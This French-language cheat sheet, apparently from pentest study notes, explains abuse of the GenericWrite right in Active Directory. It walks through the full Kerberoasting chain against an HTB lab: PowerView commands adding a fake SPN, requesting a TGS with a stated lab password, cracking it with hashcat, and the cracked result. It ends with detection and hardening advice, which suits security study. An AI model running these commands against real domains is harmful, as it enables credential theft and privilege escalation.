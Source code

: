 # GenericWrite

***

## <mark style="color:red;">🧬 Fiche Technique : Abus de GenericWrite dans Active Directory</mark>

***

### <mark style="color:blue;">📌 Qu’est-ce que</mark> <mark style="color:blue;"></mark><mark style="color:blue;">`GenericWrite`</mark> <mark style="color:blue;"></mark><mark style="color:blue;">?</mark>

`GenericWrite` est un **droit d'accès ACL (Access Control List)** attribué à un utilisateur ou groupe sur un objet Active Directory (utilisateur, ordinateur, groupe, etc.).

> ➤ Si un utilisateur détient `GenericWrite` sur un objet, il peut **modifier presque tous ses attributs**, y compris :

* `servicePrincipalName` (SPN)
* `userPassword` / `unicodePwd`
* `scriptPath`, `homeDirectory`, etc.
* `altSecurityIdentities` (lié à ADCS abuse)

***

### <mark style="color:blue;">🧨 Pourquoi c’est dangereux ?</mark>

Un attaquant peut :

* Ajouter un SPN sur un autre utilisateur, **puis faire du Kerberoasting**
* Changer l'attribut `logonScript` pour exécuter du code
* Changer `userPassword` ou `unicodePwd` (cf. ForceChangePassword, `T1098.004`)
* Injecter un certificat (`ESC8`) via `altSecurityIdentities`

***

### <mark style="color:blue;">📂 MITRE ATT\&CK Mapping</mark>

| Tactic               | Technique                   | ID          |
| -------------------- | --------------------------- | ----------- |
| Privilege Escalation | Exploitation of Object ACLs | `T1484.002` |
| Credential Access    | Kerberoasting               | `T1558.003` |
| Defense Evasion      | Abuse of Permissions        | `T1098.004` |
| Persistence          | Account Manipulation        | `T1098`     |

***

### <mark style="color:blue;">🛠️ Exemple : Abus de GenericWrite pour faire du Kerberoasting</mark>

***

#### 🧾 Préparation : Import PowerView

```powershell
Import-Module ./PowerView.ps1
```

***

#### 🧾 Étape 1 — Ajouter un SPN sur l'utilisateur cible

```powershell
Set-DomainObject -Identity ETHAN -SET @{serviceprincipalname='kerberoast/ethan'}
```

✔️ Tu crées un faux Service Principal Name (`SPN`) sur le compte ETHAN.\
➡️ Cela permet de générer un TGS (Ticket Granting Service) associé à ce SPN.

***

#### 🧾 Étape 2 — S’authentifier avec le bon contexte

```powershell
$SecPassword = ConvertTo-SecureString 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('ADMINISTRATOR.HTB\emily', $SecPassword)
```

***

#### 🧾 Étape 3 — Récupérer le TGS

```powershell
Get-DomainSPNTicket -Credential $Cred -SPN 'kerberoast/ethan'
```

✔️ PowerView demande le **TGS lié au SPN ajouté**, qui est chiffré avec le NT hash du user (`ethan`).\
➡️ Ce TGS peut être **bruteforcé offline** pour récupérer le mot de passe.

***

### <mark style="color:blue;">🧪 Illustration : Abus GenericWrite + Kerberoasting</mark>

```mermaid
graph TD
    Attacker[Emily (GenericWrite sur Ethan)]
    AD_Object[Ethan (AD User)]
    SPN[Ajout SPN: kerberoast/ethan]
    TGS[TGS Ticket Dump via PowerView]
    Hashcat[Crack offline: hashcat -m 13100]

    Attacker -->|Set-DomainObject| AD_Object
    AD_Object --> SPN
    SPN --> TGS
    TGS --> Hashcat
```

***

### <mark style="color:blue;">💥 Résultat typique :</mark>

Extrait brut `Get-DomainSPNTicket` :

```
$krb5tgs$23$*ethan$KERBEROAST/ETHAN*...
```

Bruteforce avec Hashcat :

```bash
hashcat -m 13100 ethan.hash rockyou.txt
```

➡️ Crack réussi :

```
ethan : limpbizkit
```

***

### <mark style="color:blue;">🛡️ Défense & Détection</mark>

| Technique                     | Description                                     |
| ----------------------------- | ----------------------------------------------- |
| 🛑 Auditer les droits ACL     | Utiliser BloodHound / ACLScanner                |
| 📜 Logs d'événements Kerberos | `4624`, `4769` (service ticket requested)       |
| 🔥 Désactiver SPN inutiles    | Supprimer les SPN sur comptes utilisateurs      |
| ⚙️ GPO Hardened               | Ne jamais donner `GenericWrite` sauf nécessaire |

***

### 🧠 Commandes utiles complémentaires

🔎 **Lister les utilisateurs ayant `GenericWrite`** sur d'autres :

```powershell
Find-InterestingDomainAcl -ResolveGUIDs | ? { $_.Rights -match "GenericWrite" }
```

🔧 **Voir les SPNs existants** :

```powershell
Get-DomainUser -Identity ethan | Select -ExpandProperty servicePrincipalName
```

🧼 **Supprimer un SPN ajouté** :

```powershell
Set-DomainObject -Identity ETHAN -Clear servicePrincipalName
```

***

### ✅ Résumé Express

| Élément              | Valeur                                      |
| -------------------- | ------------------------------------------- |
| 🔐 Type d’abus       | GenericWrite ACL Abuse                      |
| 🎯 Cible             | Compte utilisateur AD                       |
| 🧪 Action            | Ajout de SPN                                |
| 🎟️ Objectif         | Générer un TGS pour Kerberoasting           |
| 💣 Impact            | Crack offline d’un mot de passe utilisateur |
| 🔓 Escalade possible | DCSync, Pass-The-Hash, etc.                 |

***
